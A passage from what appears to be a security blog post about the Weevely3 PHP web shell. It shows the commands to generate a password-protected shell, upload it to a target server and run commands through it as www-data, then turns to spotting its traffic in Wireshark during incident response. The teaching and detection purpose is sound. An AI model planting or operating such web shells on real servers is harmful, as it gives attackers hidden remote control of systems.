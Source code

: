 You can [install](https://github.com/epinna/weevely3/wiki/Install) Weevely by either cloning the GitHub repository or installing the Debian-based package through APT. We are going to use the latest and maintained version which is Weevely3.

For demonstration purposes, I will generate "<i>artikrh.php</i>" with a password of "<i>artikrh</i>", which is then uploaded to the target web server and accessed through CLI:

{% highlight console %}
$ weevely generate artikrh artikrh.php
$ weevely http://a150b4a9.eu.ngrok.io/artikrh.php artikrh

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

# 3. Network inspection

For this section, let's suppose we are performing digital forensics and incident response. We can use Wireshark to examine the network traffic by using the `http.request.uri contains "artikrh.php"` filter to identify relevant packets to the suspicious PHP file:

![Weevely Packets](/assets/images/weevely1.png)

Following the HTTP stream of these packets show gibberish POST data which may imply encryption and/or encoding:

![Weevely TCP Stream](/assets/images/weevely2.png)
